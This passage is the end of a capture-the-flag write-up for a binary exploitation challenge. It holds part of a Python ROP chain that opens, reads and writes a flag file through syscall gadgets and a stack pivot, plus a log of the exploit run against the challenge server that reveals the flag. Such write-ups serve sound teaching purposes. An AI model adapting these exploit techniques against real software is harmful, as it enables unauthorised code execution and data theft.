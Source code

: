 ```py
            0,
            pop_rdx,
            0,
            0,
            pop_rax,
            2,
            syscall_ret,

            # read(5, rw_section - 0x600, 0x50)
            pop_rdi,
            5,
            pop_rsi,
            rw_section - 0x600,
            pop_rdx,
            0x50,
            0,
            pop_rax,
            0,
            syscall_ret,

            # write
            pop_rdi,
            1,
            pop_rax,
            1,
            syscall_ret
        ]

    })

    input("3rd")
    sleep(0.5)
    p.send(payload)

    p.interactive()

if __name__ == '__main__':
    exploit()
```

My exploit is pretty complicated because I couldn't find `mov qword ptr [rdi], rdx; ret` gadget the first time I did it... So I do pivot

### Get flag

```sh
┌─ [0:03] ❄ alter in ~/CTFs/2025/UTCTF/pwn/secbof ⚲
└ ϟ ./xpl.py REMOTE challenge.utctf.live 5141
[+] Opening connection to challenge.utctf.live on port 5141: Done
1st
2nd
3rd
[*] Switching to interactive mode
Flag: Flag: Flag: utflag{r0p_with_4_littl3_catch}
```
